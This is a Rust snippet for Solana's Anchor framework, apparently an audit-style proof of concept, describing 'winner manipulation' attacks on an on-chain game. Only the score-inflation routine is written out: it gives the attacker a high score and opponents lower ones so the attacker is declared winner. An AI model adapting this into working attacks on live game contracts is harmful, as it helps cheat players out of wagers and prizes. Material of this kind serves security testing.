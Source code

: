 ```rust
use anchor_lang::prelude::*;
use std::collections::HashMap;

#[program]
pub mod winner_manipulation {
    use super::*;

    pub fn execute_winner_manipulation(
        ctx: Context<WinnerManipulation>,
        manipulation_strategy: WinnerManipulationStrategy
    ) -> Result<()> {
        match manipulation_strategy {
            WinnerManipulationStrategy::ScoreInflation { target_score } => {
                execute_score_inflation(ctx, target_score)
            },
            WinnerManipulationStrategy::ResultOverride { desired_winner } => {
                execute_result_override(ctx, desired_winner)
            },
            WinnerManipulationStrategy::ConditionBypass => {
                execute_condition_bypass(ctx)
            },
            WinnerManipulationStrategy::CrossGameWinning => {
                execute_cross_game_winning(ctx)
            },
        }
    }

    fn execute_score_inflation(
        ctx: Context<WinnerManipulation>,
        target_score: u32
    ) -> Result<()> {
        let attacker = ctx.accounts.attacker.key();
        let game_session = &ctx.accounts.game_session;

        // Create inflated score map
        let mut score_map = HashMap::new();

        // Give attacker inflated score
        score_map.insert(attacker, target_score);

        // Give opponents realistic but lower scores
        for (i, player) in game_session.players.iter().enumerate() {
            if *player != attacker {
                let opponent_score = (target_score / 10).max(100); // Much lower
                score_map.insert(*player, opponent_score);
            }
        }

        // Submit inflated scores
        let determined_winner = determine_winner_internal(&score_map)?;

        assert_eq!(determined_winner, attacker);

        emit!(ScoreInflationExecuted {
            attacker,
            inflated_score: target_score,
            opponent_average: target_score / 10,
            victory_margin: target_score - (target_score / 10),
        });

        Ok(())
    }

```